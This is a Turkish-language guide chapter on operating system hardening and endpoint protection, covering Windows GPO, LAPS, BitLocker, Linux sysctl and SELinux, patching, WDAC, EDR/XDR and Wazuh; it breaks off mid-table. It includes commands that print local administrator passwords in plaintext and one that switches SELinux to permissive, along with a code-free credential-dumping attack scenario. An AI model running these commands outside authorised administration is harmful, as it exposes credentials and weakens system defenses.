






# İşletim Sistemi Sıkılaştırma ve Uç Nokta Koruması

Savunma derinliği (Defense in Depth) mimarisinde uç nokta katmanı, modern tehdit modelinde fiilen ilk temas noktasıdır. Phishing ile bir iş istasyonunda makro çalıştırıldığı veya bir geliştiricinin dizüstü bilgisayarında tedarik zinciri saldırısı tetiklendiği anda çevre kontrollerinin tamamı atlanmış olur. CrowdStrike 2026 Global Threat Report, 2025 tespitlerinin **%82'sinin dosyasız** olduğunu ve saldırganların giderek geçerli kimlik bilgileri ile güvenilir kimlik akışlarını kullandığını belirtmektedir. Bu eğilim, imza tabanlı antivirüsten davranışsal telemetri toplayan EDR/XDR mimarisine geçişi zorunlu kılmaktadır.

Bu bölümde Windows ve Linux sıkılaştırma, yama yönetimi, uygulama beyaz listeleme, EPP → EDR → XDR evrimi, bellek koruma mekanizmaları, **EDR tuning**, **ransomware savunması** ve **MDR** operasyon modeli; **MITRE ATT&CK** teknik kimlikleri, **NIST SP 800-53**, **CIS Controls v8**, **ISO 27001:2022** ve Türkiye mevzuatı (**KVKK**, **5651**, **BDDK BSEBY**, **CBDDO BİG Rehberi**) çerçevesinde ele alınır.


*Uç nokta katmanında EPP, EDR ve XDR bileşenlerinin savunma derinliği içindeki konumu*



<details>
<summary>🖥️ Windows Sıkılaştırma GPO Hızlı Referansı</summary>

| GPO Kategorisi | Politika | Önerilen değer |
| :---- | :---- | :---- |
| UAC | Elevation prompt (standard user) | Automatically deny |
| Credential UI | Require trusted path | Enabled |
| Enumeration | Enumerate local users on domain | Disabled |
| LAPS | Password length / age | 30+ karakter / 30 gün |
| BitLocker | TPM + startup PIN | Enabled |
| ASR | Block Office child process | Enabled |

**Tier modeli:** Tier 0 (DC/PKI) → Tier 1 (sunucu) → Tier 2 (iş istasyonu) OU ayrımı zorunlu.

</details>

---

## §7.1.1. Windows İşletim Sistemi Sıkılaştırma Mimarisi

Kurumsal Windows ortamlarında sıkılaştırmanın omurgası, Active Directory'ye bağlı **Group Policy Objects (GPO)** hiyerarşisidir. GPO işleme sırası **LSDOU** (Local → Site → Domain → OU) mantığıyla çalışır; çakışma durumunda OU seviyesindeki politika baskındır. Pratikte tercih edilen mimari, Microsoft Security Compliance Toolkit baseline'larını **Tier 0 / Tier 1 / Tier 2** OU yapısına bağlamak ve sunucu ile iş istasyonu baseline'larını ayrıştırmaktır.

Hibrit ortamlarda **Microsoft Intune (MDM)** üzerinden Configuration Service Provider (CSP) ile politika dağıtımı, Azure AD/Entra ID'ye katılmış cihazlar için tercih edilmektedir. GPO + Intune birlikte çalışırken çakışma yönetimi için `MDMWinsOverGP` ayarı belirleyicidir.

:::note
CIS Controls v8 **Control 4** (Secure Configuration of Enterprise Assets and Software) ile GPO tabanlı sıkılaştırma birebir örtüşür. ISO 27001:2022 Annex A.8.9 (Configuration Management) bu kontrolün muadilidir.
:::

### Group Policy Objects ile Merkezi Politika Yönetimi

Etkin bir Windows sıkılaştırma stratejisi aşağıdaki GPO kategorilerinin titizlikle yapılandırılmasını gerektirir:

| GPO Kategorisi | Kritik Politikalar | Güvenlik Etkisi |
| :---- | :---- | :---- |
| Hesap Politikaları | `PasswordComplexity = Enabled`, `MinimumPasswordLength = 14`, `LockoutThreshold = 5` | Kimlik bilgisi dayanıklılığı |
| Yönetici Şablonları | PowerShell betik kısıtlaması, UAC, USB politikaları | Saldırı yüzeyi daraltma |
| Bileşen Politikaları | BitLocker, Defender, Olay Günlüğü saklama | Veri-at-rest ve log yönetimi |
| Denetim Politikaları | Advanced Audit Policy (4688, 4624, 4672) | SOC/SIEM telemetrisi |

Microsoft, Windows 11 ve Windows Server için **Security Baselines** sunmaktadır. Intune üzerinden "Endpoint security > Security baselines" menüsünden doğrudan dağıtılabilir. Yeni bir baseline üretim ortamına dağıtılmadan önce mutlaka test OU'da pilot edilmelidir.

```powershell
# Security Compliance Toolkit ile baseline import (özet akış)
# 1. Microsoft Security Compliance Toolkit indir
# 2. GPOMgmt.msc → Import → baseline GPO seç
# 3. Test OU'ya link → CIS-CAT veya SCA ile doğrula
# 4. Üretim OU'larına aşamalı dağıtım
```

:::caution
Yanlış yapılandırılmış GPO'lar saldırganlar tarafından istismar edilebilir. GPO erişim yetkileri (GPOEdit, Write DACL) Tier 0 hesaplarla sınırlandırılmalı; GPO değişiklikleri FIM ve SIEM ile izlenmelidir.
:::


*Yanlış yapılandırılmış GPO'ların saldırı vektörü olarak kullanımı ve sıkılaştırma ile kapatılması*

### LAPS (Local Administrator Password Solution)

Yerel yönetici parolasının tüm filoda aynı olması, **pass-the-hash** (T1550.002) ve **yatay hareket** (TA0008) için en yaygın istismar vektörüdür. **Windows LAPS** (Nisan 2023 itibarıyla native entegre; Windows 10/11, Server 2019/2022/2025) bu açığı her makineye benzersiz, otomatik rotasyona tabi parola atayarak kapatır.

Mimari akış: LAPS arka plan görevi ile saatte bir aktif politikayı işler. Parola süresi dolduğunda cihaz politika karmaşıklık kurallarına uygun rastgele yeni parola üretir, dizinde (AD veya Entra ID) saklar. Modern LAPS **şifrelenmiş parola** ve **parola geçmişi** destekler; DSRM hesabının parolasını da yönetir.

**Post-authentication actions:** Yardım masası mühendisi LAPS parolasını kullandıktan sonra parola otomatik rotasyona girer. AD-tabanlı erişimde parola okuma yetkisi ACL ile, şifre çözme yetkisi `ADPasswordEncryptionPrincipal` ayarı ile ayrı kontrol edilir.

```powershell
# Manuel acil rotasyon (yönetilen cihaz üzerinde)
Reset-LapsPassword

# AD'den parola okuma (yetkili IT admin)
Get-LapsADPassword -Identity "WIN-SRV01" -AsPlainText

# Felaket senaryosu: mounted backup DB'den kurtarma
Get-LapsADPassword -Identity "WIN-SRV01" -Port 50000 -RecoveryMode
```

| LAPS Parametresi | Önerilen Değer | Gerekçe |
| :---- | :---- | :---- |
| Parola karmaşıklığı | En üst seviye (büyük/küçük/sayı/özel) | Brute-force direnci |
| Parola uzunluğu | Minimum 30 karakter | NTLM hash kırılma maliyeti |
| Parola yaşı | 30 gün (kurumsal politika) | Rotasyon frekansı |
| Yedekleme dizini | AD veya Entra ID | Merkezi escrow |


*LAPS ile yerel yönetici parolası rotasyonu ve pass-the-hash riskinin azaltılması*

### BitLocker Disk Şifreleme

BitLocker, veri-at-rest korumasını **simetrik şifreleme** (varsayılan AES-128, XTS modu) ile sağlar. Veri **VMK (Volume Master Key)** ile şifrelenir; VMK TPM'den çıkarma, PIN/parola veya kurtarma anahtarı ile korunabilir.

TPM entegrasyonunun temeli **PCR (Platform Configuration Register)** registerlarına dayanır. Boot sırasında her bileşen (UEFI firmware, boot manager, OS loader) ölçülerek PCR'lara yazılır. TPM yalnızca PCR durumu beklenen değerlerle eşleştiğinde VMK'yı serbest bırakır. PCR 7 Secure Boot durumunu, PCR 4 boot manager digest'ini temsil eder.

:::danger
TPM-only modu cold boot ve LPC bus sniffing saldırılarına açıktır; VMK TPM'den CPU'ya açık metin olarak aktarılır. Yüksek güvenlik ortamlarında **TPM + PIN** (pre-boot authentication) zorunlu kılınmalıdır.
:::

Kurumsal anahtar yönetimi için kurtarma anahtarları AD DS'e (`msFVE-RecoveryInformation`) veya Entra ID'ye escrow edilir:

```
GPO: Computer Configuration > Administrative Templates > Windows Components >
     BitLocker Drive Encryption > Operating System Drives
- "Require additional authentication at startup" = Enabled
- "Configure TPM startup PIN" = Require startup PIN with TPM
- "Store BitLocker recovery information in AD DS" = Enabled
```

```powershell
manage-bde -protectors -adbackup C: -id {6CEF9111-61C2-4A09-84E1-2C0F0AAD60D2}
```

**KVKK eşlemesi:** Disk şifreleme, KVKK Kişisel Veri Güvenliği Rehberi'nin "Şifreleme" teknik tedbiri kapsamındadır. BDDK BSEBY md. 16, personele tahsis edilen hassas veri içeren cihazların şifrelenmesini açıkça zorunlu kılar.

### Gelişmiş Windows Güvenlik Özellikleri

**Virtualization-Based Security (VBS) ve Credential Guard:** NTLM hash'leri ve Kerberos biletlerini sanallaştırma tabanlı güvenlik ile izole eder. UEFI, Secure Boot ve uyumlu işlemci gerektirir.

**Attack Surface Reduction (ASR) Kuralları:** Office makrolarından betik çalıştırma, e-posta eklerinden yürütme, credential theft koruması gibi saldırganların sık kullandığı teknikleri engeller.

**Memory Integrity (HVCI):** Sürücülerin kernel'da imzalı çalışmasını zorlar; BYOVD saldırılarına karşı kritik katmandır.

---

## §7.1.2. Linux İşletim Sistemi Sıkılaştırma Mimarisi

Linux çekirdek parametreleri `/proc/sys/` altında runtime'da, kalıcı olarak `/etc/sysctl.d/*.conf` drop-in dosyalarıyla yönetilir. CIS Benchmark Level 1 ile uyumlu temel ağ/çekirdek sıkılaştırması:

```bash
# /etc/sysctl.d/60-cis-hardening.conf
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.all.send_redirects = 0
net.ipv6.conf.all.accept_redirects = 0
net.ipv4.conf.all.accept_source_route = 0
net.ipv4.ip_forward = 0
net.ipv4.tcp_syncookies = 1
net.ipv4.icmp_echo_ignore_broadcasts = 1
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.conf.all.log_martians = 1
kernel.randomize_va_space = 2
kernel.kptr_restrict = 2
kernel.dmesg_restrict = 1
kernel.sysrq = 0
fs.protected_symlinks = 1
fs.protected_hardlinks = 1
```

```bash
sudo sysctl --system
sysctl net.ipv4.conf.all.rp_filter
```

### SELinux ve AppArmor: MAC Mimarileri

Standart Linux izinleri **DAC (Discretionary Access Control)**'tur — dosya sahibi izinleri değiştirebilir. **MAC (Mandatory Access Control)** root dahi olsa süreçleri sistem genelinde kurallarla kısıtlar.

| Özellik | SELinux | AppArmor |
| :---- | :---- | :---- |
| Model | Etiket/context tabanlı | Yol (path) tabanlı |
| Varsayılan dağıtım | RHEL, Fedora, Rocky | Ubuntu, Debian, SUSE |
| Modlar | enforcing / permissive / disabled | enforce / complain |
| Yapılandırma | Karmaşık, granüler | Basit, düz metin |
| Log konumu | `/var/log/audit/audit.log` (AVC) | `/var/log/syslog` |

:::caution
**permissive (SELinux)** / **complain (AppArmor)** modu ihlalleri yalnızca loglar, engellemez — bu yalnızca profil geliştirme içindir. Üretimde **enforcing/enforce** tek geçerli konfigürasyondur. İlk sorunda MAC'i tamamen kapatmak privilege escalation saldırılarına kapı açar.
:::

```bash
# SELinux
sestatus
setenforce 0                # geçici permissive (debug)
grep "AVC" /var/log/audit/audit.log | tail
audit2allow -a -M mymodule && semodule -i mymodule.pp

# AppArmor
aa-status
aa-complain /usr/sbin/nginx
aa-genprof /path/to/executable
aa-enforce /usr/sbin/nginx
```

**SSH güvenliği:** `PermitRootLogin no`, şifre yerine anahtar tabanlı doğrulama, `AllowUsers`/`AllowGroups` ile erişim kısıtlaması.

Gereksiz servislerin kapatılması:

```bash
systemctl list-units --type=service --state=running
systemctl disable <service_name> --now
```

---

## §7.1.3. Yama Yönetimi (Patch Management) Mimarisi

Yama yönetimi, **envanter + önceliklendirme + aşamalı dağıtım + doğrulama** döngüsüdür. CIS Controls v8 **Control 7** (Continuous Vulnerability Management) ve **Control 2** (Inventory) bu döngünün temelini oluşturur.


*Zafiyet tespiti, önceliklendirme, test, dağıtım ve doğrulama döngüsü*

**Windows tarafı:**

| Araç | Kullanım Senaryosu | Özellik |
| :---- | :---- | :---- |
| WSUS | On-prem, bant genişliği tasarrufu | Microsoft Update'ten çek, dahili dağıt |
| SCCM/MECM | Kurumsal ölçek | Collection bazlı hedefleme, maintenance window |
| Intune | Bulut-native | Windows Update for Business deployment rings |

**Linux tarafı:** `dnf-automatic` / `unattended-upgrades`; Ansible/Satellite/Landscape ile filo yönetimi.

**Önceliklendirme:** Yamalar yalnızca CVSS skoruna göre değil, **EPSS** ve **CISA KEV** katalogu ile birlikte önceliklendirilmelidir. KEV'de yer alan CVSS 9.0+ zafiyetler "acil" kategorisine alınır; SLA 72 saat altına indirilmelidir.

**Aşamalı dağıtım:** Pilot ring (%1–5 IT/test) → geniş ring (%25) → üretim. Bu, sorunlu güncellemelerin tüm filoyu kilitlemesini önler.

:::note
KVKK Kişisel Veri Güvenliği Rehberi, cihazların yama yönetiminin düzenli kontrolünü gerektirir. BDDK BSEBY, bankalar için güvenlik açıklarını hızla giderecek yama sürecini zorunlu kılar.
:::

---

## §7.1.4. Uygulama Beyaz Listeye Alma (Application Whitelisting)

Beyaz listeleme, "kötü olanı engelle" modelini tersine çevirip "yalnızca onaylananı çalıştır" (allowlist) modeline geçer. NIST SP 800-167 bu yaklaşımın referans dokümanıdır.

| Özellik | AppLocker | WDAC |
| :---- | :---- | :---- |
| Tanıtım | Windows 8 | Windows 10 / Server 2016 |
| Çalışma modu | Kullanıcı modu | Kernel + kullanıcı modu |
| Kernel-mode driver kontrolü | Yok | Var |
| Kapsam | Per-user | Per-device |
| Dosya tanımlama | Sertifika subject name | Sertifika thumbprint |
| Hata riski | Yanlış kural → bazı süreçler çalışmaz | Yanlış kural → boot olmayabilir |

WDAC XML şeması (SiPolicy.xsd) ile tanımlanır: `PolicyInfo`, `Rules`, `Signers`, `FileRules`, `SigningScenarios`. Üç şablon: Default Windows Mode, Allow Microsoft Mode, Signed and Reputable Mode.

WDAC olayları **CodeIntegrity/Operational** günlüğüne yazılır: Event ID 3076 (audit), 3077 (enforcement bloğu), 3089 (politika aktivasyonu).

```powershell
# WDAC audit modunda başlatma (önerilen geçiş)
# 1. SiPolicy.p7b oluştur → audit mode
# 2. CodeIntegrity/Operational loglarını 30 gün incele
# 3. Publisher tabanlı kurallar ekle (hash yerine)
# 4. Enforcement'a geç
```

**Linux tarafı — fapolicyd:** RHEL'de RPM DB dışındaki binary'lerin çalıştırılmasını engeller.

:::danger
BDDK BSEBY md. 16/(2) bankalar için **beyaz liste** uygulamasını ve beyaz listedeki dosyaların bütünlük kontrolünü zorunlu tutar. KVKK Rehberi "İzin Verilmedikçe Her Şey Yasaktır" ilkesi doğrudan allowlisting felsefesidir.
:::

---

## §7.1.5. EPP → EDR → XDR Mimari Evrimi

Üç katmanı sistem mimarı gözüyle ayırt etmek gerekir:

| Katman | Odak | Tespit Yöntemi | Yanıt |
| :---- | :---- | :---- | :---- |
| **EPP** | Önleme | İmza + NGAV/ML | Karantina |
| **EDR** | Tespit + müdahale | Davranışsal IOA, ETW/eBPF | Host izolasyonu, timeline |
| **XDR** | Korelasyon | Endpoint + ağ + kimlik + bulut | SOAR orchestration |

- **EPP (Endpoint Protection Platform):** İmza tabanlı AV + NGAV + firewall + şifreleme. "Bilinen kötüyü çalışmadan engelle."
- **EDR (Endpoint Detection and Response):** Sürekli telemetri, MITRE ATT&CK korelasyonu, post-compromise aksiyonlar. "Reaktif, telemetri-zengin."
- **XDR (Extended Detection and Response):** Uç nokta + ağ + bulut + e-posta + kimlik telemetrisini tek korelasyon motorunda birleştirir.


*EDR/XDR veri akışı: agent telemetrisi → korelasyon motoru → SOC/SIEM dashboard*

**Veri akışı örneği:** Bir makinede LSASS'tan kimlik bilgisi dump edilir (T1003.001), aynı kimlik başka makineye login için kullanılır — XDR merkezi korelasyon motoru bu noktaları birleştirip saldırı zincirinin grafik gösterimini sunar.

**Geçiş adımları:**

1. Mevcut EPP kapsamını envanterle (CIS Control 1-2)
2. Yüksek riskli uç noktalarda EDR pilotu
3. False positive tuning (rule whitelist + ML feedback)
4. SOC playbook entegrasyonu (isolation, evidence collection)
5. SIEM/SOAR korelasyonu

---

## §7.1.6. Davranışsal Analiz ve Bellek Koruma Teknikleri

Modern EPP/EDR, imzaya ek olarak bellek koruma mekanizmalarını yönetir:

| Mekanizma | İşlev | Saldırı Etkisi |
| :---- | :---- | :---- |
| **DEP (NX bit)** | Veri sayfalarında kod çalıştırmayı engeller | Buffer overflow shellcode |
| **ASLR** | Bellek adreslerini rastgeleleştirir | ROP/return-to-libc |
| **CFG** | Dolaylı çağrı bütünlüğü | ROP/JOP |
| **ACG** | Dinamik kod üretimini engeller | JIT shellcode |
| **HVCI** | Kernel sürücü imza zorunluluğu | BYOVD |

```powershell
Get-ProcessMitigation -System
Set-ProcessMitigation -System -Enable DEP,SEHOP,ForceRelocateImages,BottomUp,HighEntropy
bcdedit /set nx AlwaysOn
```

**AMSI (Antimalware Scan Interface):** PowerShell, VBScript, JScript için bellek içi tarama.

**EDR davranışsal tespit (MITRE odaklı):** T1055 Process Injection, T1562 Impair Defenses. EDR'ler parent-child anomalileri, şüpheli bellek allocation'ları (VirtualAlloc + WriteProcessMemory), LSASS erişimi + network outbound korelasyonu ile tespit eder.

**Linux:** eBPF tabanlı observability (Falco, Tracee, Wazuh syscall monitoring), seccomp filtreleri.

:::note
CBDDO BİG Rehberi **3.1.5.5** "İşletim Sistemlerinin Güvenlik Mekanizmalarının Etkinleştirilmesi" bu mekanizmaların açık tutulmasını gerektirir.
:::

**Gerçekçi saldırı-savunma senaryosu:** Saldırgan spear-phishing ile ilk erişim alır (T1566), PowerShell ile C2 kurar (T1059.001), `lsass.exe` içine enjekte olur (T1055.001) ve credential dumping yapar (T1003.001). WDAC + LAPS + Constrained Language Mode execution yüzeyini daraltır; EDR "lsass.exe → şüpheli remote thread + network connection" ile yüksek skorlu alert üretir ve otomatik host izolasyonu tetikler.

### SOC Entegrasyonu ve Telemetri Pipeline

EDR/XDR, SIEM'e alarm + ham telemetri besler; SOAR ile otomatik müdahale (containment) tetiklenir. Windows Event Forwarding (WEF) veya Wazuh agent ile merkezi toplama önerilir:

```xml
<!-- Windows Event Collector subscription (özet) -->
<Subscription xmlns="http://schemas.microsoft.com/2006/03/windows/events/subscription">
  <Query>
    <Select Path="Security">*[System[(EventID=4688)]]</Select>
    <Select Path="Microsoft-Windows-PowerShell/Operational">*[System[(EventID=4104)]]</Select>
    <Select Path="Microsoft-Windows-Sysmon/Operational">*[System[(EventID=1 or EventID=10)]]</Select>
  </Query>
</Subscription>
```

MITRE ATT&CK Evaluations ve AV-Comparatives raporları, vendor iddialarına bağlı kalmadan bağımsız değerlendirme sağlar. Red Team tatbikatları ile kontrollerin etkinliği periyodik doğrulanmalıdır.

---

## §7.1.7. Somut Araçlar: Wazuh, CrowdStrike, Defender, SentinelOne

### Wazuh (Açık Kaynak XDR/SIEM)

Dört bileşenli dağıtık mimari: **agent**, **server/manager**, **indexer** (OpenSearch), **dashboard**. Agent modülleri: Log collector, FIM, SCA (CIS Benchmark), System inventory, Malware detection, Active Response.

```xml
<!-- Wazuh Active Response: SSH brute-force IP bloklama -->
<command>
  <name>firewall-drop</name>
  <executable>firewall-drop</executable>
  <timeout_allowed>yes</timeout_allowed>
</command>
<active-response>
  <command>firewall-drop</command>
  <location>local</location>
  <rules_id>5710,5711</rules_id>
  <timeout>600</timeout>
</active-response>
```

Veri akışı: agent → server (1514/TCP) → analiz → indexer (9200) → dashboard (55000). MITRE ATT&CK ve PCI DSS/HIPAA/GDPR/NIST 800-53 uyum eşlemeleri hazır gelir.

### Ticari EDR Çözümleri

| Çözüm | Güçlü Yön | Entegrasyon |
| :---- | :---- | :---- |
| **CrowdStrike Falcon** | Bulut-native, hafif agent, Threat Graph | SIEM, SOAR |
| **Microsoft Defender for Endpoint** | Windows entegre, ASR, KQL Advanced Hunting | Intune, WDAC, Sentinel |
| **SentinelOne** | EPP+EDR tek agent, Storyline, ransomware rollback | XDR korelasyon |

:::caution
Wazuh lisans maliyeti sıfır ancak ölçeklendirme (500+ EPS, çok-node cluster) yüksek uzmanlık gerektirir. Ticari EDR'ler yönetilen telemetri ve hazır tespit içeriği sunar; TCO değerlendirmesinde operasyonel maliyet hesaba katılmalıdır.
:::

---

## §7.1.8. EDR Tuning ve False Positive Yönetimi

EDR dağıtımının en kritik operasyonel aşaması **tuning** (ayarlama) sürecidir. Agresif politika, meşru iş süreçlerini engelleyerek alarm yorgunluğu yaratır; gevşek politika ise gerçek tehditleri kaçırır. NIST SP 800-53 **SI-4** (System Monitoring) ve CIS Controls v8 **Control 13.2** (Deploy a Host-Based IDS), EDR'ın yalnızca kurulması değil sürekli optimize edilmesini gerektirir.

### Tuning Yaşam Döngüsü

| Faz | Süre | Eylemler | Çıktı |
| :---- | :---- | :---- | :---- |
| **1. Audit Mode** | 2–4 hafta | Tüm kurallar izleme modunda; engelleme kapalı | Baseline telemetri |
| **2. Envanter** | 1 hafta | Meşru uygulama, script, admin araçları listesi | Allowlist taslağı |
